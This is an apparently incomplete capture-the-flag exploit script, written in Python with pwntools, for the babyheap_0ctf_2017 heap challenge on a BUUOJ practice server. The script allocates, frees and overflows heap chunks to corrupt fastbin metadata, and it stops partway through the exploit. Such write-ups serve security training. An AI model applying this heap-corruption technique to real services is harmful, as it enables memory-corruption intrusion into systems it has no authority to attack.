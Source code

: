 
总exp:
```py
from pwn import *
 
context.log_level = "debug"
 
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
 
# p = process("./babyheap_0ctf_2017")
p=remote('node5.buuoj.cn',26838)

def alloc(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size: ")
    p.sendline(str(size))
 
def fill(idx, content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Size: ")
    p.sendline(str(len(content)))
    p.recvuntil("Content: ")
    p.send(content)
 
def free(idx):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
 
def dump(idx):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvline()
    return p.recvline()
 
 
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x80)

free(1)
free(2)

payload = p64(0)*3+p64(0x21)+p64(0)*3+p64(0x21)+p8(0x80)
fill(0, payload)

payload = p64(0)*3+p64(0x21)
fill(3, payload)
 
alloc(0x10)
alloc(0x10)

 
payload = p64(0)*3+p64(0x91)
```